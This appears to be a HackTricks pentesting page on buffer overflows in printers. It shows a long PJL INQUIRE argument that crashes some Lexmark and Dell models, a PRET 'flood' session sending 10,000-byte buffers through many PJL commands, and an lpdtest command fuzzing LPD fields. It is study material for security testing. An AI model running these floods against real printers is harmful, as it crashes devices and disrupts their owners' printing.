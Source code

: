 

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


# PJL

Various _Lexmark_ laser printers crash when when receiving about 1.000 characters as the INQUIRE argument (see [CVE-2010-0619](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-0619)) and sending about 3.000 characters as the SET argument to the _Dell 1720n_ crashes the device:

```
@PJL INQUIRE 00000000000000000000000000000000000000000000000000000…
```

You can check for Buffer Overflows using [**PRET**](https://github.com/RUB-NDS/PRET):

```bash
./pret.py -q printer pjl
Connection to printer established

Welcome to the pret shell. Type help or ? to list commands.
printer:/> flood
Buffer size: 10000, Sending: @PJL SET [buffer]
Buffer size: 10000, Sending: @PJL [buffer]
Buffer size: 10000, Sending: @PJL COMMENT [buffer]
Buffer size: 10000, Sending: @PJL ENTER LANGUAGE=[buffer]
Buffer size: 10000, Sending: @PJL JOB NAME="[buffer]"
Buffer size: 10000, Sending: @PJL EOJ NAME="[buffer]"
Buffer size: 10000, Sending: @PJL INFO [buffer]
Buffer size: 10000, Sending: @PJL ECHO [buffer]
Buffer size: 10000, Sending: @PJL INQUIRE [buffer]
Buffer size: 10000, Sending: @PJL DINQUIRE [buffer]
Buffer size: 10000, Sending: @PJL USTATUS [buffer]
Buffer size: 10000, Sending: @PJL RDYMSG DISPLAY="[buffer]"
Buffer size: 10000, Sending: @PJL FSQUERY NAME="[buffer]"
Buffer size: 10000, Sending: @PJL FSDIRLIST NAME="[buffer]"
Buffer size: 10000, Sending: @PJL FSINIT VOLUME="[buffer]"
Buffer size: 10000, Sending: @PJL FSMKDIR NAME="[buffer]"
Buffer size: 10000, Sending: @PJL FSUPLOAD NAME="[buffer]"
```

# LPD daemon

It allows multiple user-defined vectors like _jobname, username or hostname_, which may **not be sufficiently protected. S**everal vulnerabilities related to this malfunction has been already discovered.

A simple **LPD fuzzer** to test for buffer overflows can be created using the `lpdtest` tool **included** in [PRET](https://github.com/RUB-NDS/PRET). The `in` argument sets all user inputs defined by the LPD protocol to a certain value (in this case, Python output):

```bash
./lpdtest.py printer in "`python -c 'print "x"*150'`"
```

**You can find more information about these attacks in** [**http://hacking-printers.net/wiki/index.php/Buffer\_overflows**](http://hacking-printers.net/wiki/index.php/Buffer\_overflows)


<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>


